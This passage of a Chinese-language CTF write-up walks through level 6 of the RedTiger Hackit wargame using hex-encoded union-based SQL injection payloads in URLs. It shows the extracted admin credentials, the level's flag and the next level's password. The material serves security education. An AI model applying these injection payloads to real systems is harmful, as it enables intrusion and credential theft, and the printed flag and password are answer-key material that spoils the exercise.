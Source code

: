 ```
# 测试回显数量，仍然是5个位置。
# ' order by 5# => 0x27206f72646572206279203523
http://redtiger.labs.overthewire.org/level6.php?user=0 union select 1,0x27206f72646572206279203523,3,4,5%23
# ' order by 6# => 0x27206f72646572206279203623
http://redtiger.labs.overthewire.org/level6.php?user=0 union select 1,0x27206f72646572206279203623,3,4,5%23
```
测试回显位：
```
# ' union select 1,2,3,4,5# => 0x2720756e696f6e2073656c65637420312c322c332c342c3523
http://redtiger.labs.overthewire.org/level6.php?user=0 union select 1,0x2720756e696f6e2073656c65637420312c322c332c342c3523,3,4,5%23
```

	Username: 	2
	Email: 	4

That's ez! 接下来按照要求输出即可。

```
# ' union select 1,username,3,password,5 from level6_users where status=1#   =>  0x2720756e696f6e2073656c65637420312c757365726e616d652c332c70617373776f72642c352066726f6d206c6576656c365f7573657273207768657265207374617475733d3123

http://redtiger.labs.overthewire.org/level6.php?user=0 union select 1,0x2720756e696f6e2073656c65637420312c757365726e616d652c332c70617373776f72642c352066726f6d206c6576656c365f7573657273207768657265207374617475733d3123,3,4,5%23
```

> Username: 	admin
> Email: 	m0nsterk1ll
> You can raise your wechall.net score with this flag: 074113b268d87dea21cc839954dec932
> The password for the next level is: keep_in_mind_im_not_blind

## level 7


## 参考网站
[1] [SQL 注入](https://ctf-wiki.github.io/ctf-wiki/web/sqli/)
[2] [SQL注入教程——（三）简单的注入尝试](http://blog.csdn.net/helloc0de/article/details/76142478)
[3] [Redtiger Hackit Writeup](https://blog.spoock.com/2016/07/25/redtiger-writeup/)
[4] [RedTiger libs writeup](http://ph0rse.me/2017/07/29/RedTiger-libs-writeup/)

# sqli-labs

